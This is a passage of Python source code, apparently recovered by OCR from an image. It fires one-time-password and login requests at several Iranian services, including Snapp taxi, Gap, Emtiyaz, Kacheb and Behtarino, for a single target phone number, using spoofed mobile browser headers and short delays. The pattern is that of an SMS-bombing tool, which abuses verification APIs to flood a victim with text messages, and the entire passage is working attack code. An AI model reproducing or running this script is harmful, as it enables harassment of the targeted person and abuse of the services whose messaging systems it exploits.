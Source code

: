         time.sleep(0.5)

        headers = {"Host": "app.snapp.taxi", "content-length": "29", "x-app-name": "passenger-pwa", "x-app-version": "5.0.0", "app-version": "pwa", "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", "content-type": "application/json", "accept": "*/*", "origin": "https://app.snapp.taxi", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://app.snapp.taxi/login/?redirect_to\u003d%2F", "accept-encoding": "gzip, deflate, br", "accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6", "cookie": "_gat\u003d1"}
        json = {"cellphone":"+98"+phone}
        req = requests.post("https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", headers=headers, json=json)
        print(req.text)

        time.sleep(0.5)

        headers = {"Host": "core.gap.im","accept": "application/json, text/plain, */*","x-version": "4.5.7","accept-language": "fa","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","appversion": "web","origin": "https://web.gap.im","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.gap.im/","accept-encoding": "gzip, deflate, br"}
        req = requests.get("https://core.gap.im/v1/user/add.json?mobile=%2B+98"+phone, headers=headers)
        print(req.text)

        time.sleep(0.5)

        headers = {"Host": "web.emtiyaz.app","Connection": "keep-alive","Content-Length": "28","Cache-Control": "max-age\u003d0","Upgrade-Insecure-Requests": "1","Origin": "https://web.emtiyaz.app","Content-Type": "application/x-www-form-urlencoded","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","Accept": "text/html,application/xhtml+xml,application/xml;q\u003d0.9,image/webp,image/apng,*/*;q\u003d0.8,application/signed-exchange;v\u003db3;q\u003d0.9","Sec-Fetch-Site": "same-origin","Sec-Fetch-Mode": "navigate","Sec-Fetch-User": "?1","Sec-Fetch-Dest": "document","Referer": "https://web.emtiyaz.app/login","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","Cookie": "__cfduid\u003dd3744e2448268f90a1ea5a4016884f7331596404726; __auc\u003dd86ede5a173b122fb752f98d012; _ga\u003dGA1.2.719537155.1596404727; __asc\u003d7857da15173c7c2e3123fd4c586; _gid\u003dGA1.2.941061447.1596784306; _gat_gtag_UA_124185794_1\u003d1"}
        data = "send=1&cellphone=0"+phone
        req = requests.post("https://web.emtiyaz.app/json/login", headers=headers, data=data)

        time.sleep(0.5)

        headers = {
        "User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "Content-Type": "application/json;charset\u003dUTF-8",
        "Origin": "https://kacheb.co",
        "Referer": "https://kacheb.co/"
    }
        data = {"tell":"0"+phone,"role":"customer","secure":1}
        req = requests.post("https://server.kacheb.co/api/tell", headers = headers, json = data)
        print(req.text)
        headers = {
            "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
            "content-type": "application/json;charset\u003dUTF-8",
            "origin": "https://zhiva1.ir",
            "referer": "https://zhiva1.ir/",
        }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/businesses/lqfbvhcgvy/vitrin_verification/", headers = headers, json = json)
        print(req.text)
